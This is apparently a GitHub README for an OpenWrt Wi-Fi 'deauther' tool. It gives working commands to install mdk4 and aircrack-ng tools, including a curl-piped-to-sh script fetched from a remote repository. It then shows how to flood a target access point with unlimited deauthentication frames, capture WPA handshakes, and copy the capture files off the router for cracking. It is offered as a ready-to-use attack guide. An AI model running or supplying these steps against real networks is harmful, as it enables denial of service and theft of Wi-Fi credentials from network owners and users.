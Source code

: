 # openwrt deauther based on airplay-ng
- Functions similar on kali
- Also it can capture WPA Handshakes

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```
# Mipsel_24kc only 
> Any Openwrt running in this Processors
 - mt7620
 - mt7621
 - mt76x8
 - rt288x
 - rt305x
 - rt3883
```sh
wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

## Auto install 
```sh

opkg update && opkg install curl && curl https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/monitor_mode.sh | sh
````

# Run
```sh
sh monitor_mode.sh && airodump-ng mon0
```
> ctrl + c
```sh
aireplay-ng --deauth 0 -a (Mac BSSID)
```

## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add mon0 type monitor`

`ip link set mon0 up`

`airodump-ng mon0`

`aireplay-ng mon0 --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - *.cap - export any name with .cap file format
